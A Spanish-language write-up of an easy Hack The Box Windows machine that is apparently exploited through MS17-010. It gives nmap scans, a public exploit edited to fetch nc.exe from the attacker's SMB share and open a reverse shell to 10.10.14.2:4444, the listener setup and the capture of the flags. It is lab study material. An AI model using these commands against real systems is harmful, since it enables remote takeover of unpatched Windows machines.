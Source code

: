 ![cover](https://github.com/b14nc0/CTF/blob/main/HTB/images/paper/paper2.jpg)

## Windows - Easy
IP = 10.10.10.4

### USER ###

*** 
Ejecutamos nmap 
    
    nmap -p- --open --min-rate 5000 -n -Pn -vvv -oG allPorts 10.10.10.4
    
![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/paper/allPorts.jpg)

    nmap -p139,445 -sV -sC -vv -Pn -oN targeted 10.10.10.4

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/paper/targeted.jpg)

Realizamos un escaneo de las vulnerabilidades del servicio smb

    nmap -p 445 --script "vuln and safe" -Pn -oN servicioScan 10.10.10.4

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/paper/targeted.jpg)

Nos muestra que el servicio es vulnerable al MS17-010


Nos descargamos el exploit de: 
https://github.com/worawit/MS17-010

Ejecutamos el checker.py para comprobar syi los named pipes responden

    python2 checker.py 10.10.10.4


Comprobamos que el spoolss y el browser son vulnerables.


Ahora vamos a explotar la vulnerabilidad con el zzz_exploit.py pero antes tenemos que editar para que nos ejecute nuestra reverse shell.
1.- buscamos en nuestro equipo con locate nc.exe y nos lo copiamos a la ruta que vamos a compartir



2.- editamos el exploit para indicarle como va a ser nuestra reverse shell.
Comentamos las lineas que ya no queremos que se ejecuten (flecha de arriba) e incluimos nuestra ejecucion (flecha de abajo)

     service_exec(conn, r'cmd /c \\10.10.14.2\smb\nc.exe -e cmd.exe 10.10.14.2 4444')

3.- Ejecutamos el exploit
Para ejecutar el exploit tenemos que hacer varias cosas.
   1.- Compartimos una ruta de la cual vamos a coger el nc.exe con impacket y le indicamos que soporte smb2
                                
      impacket-smbserver smb $(pwd) -smb2support
      
   2.- Ponemos el puerto configuracido para la reverse shell a la escucha en nuestra maquina 
    
      nc -lvp 4444

   3.- Ejecutamos el zzz_exploit.py
   
    python2 zzz_exploit.py 10.10.10.4 spoolss
    
    
    
    
Accedemos a la carpeta del usuario y en el escritorio encontramos la flag    
      
### Root ###
***

Ejeutamos cd en la caperta de administrador y vemos que nos permite el acceso, vamos al escritorio y encontramos la flag
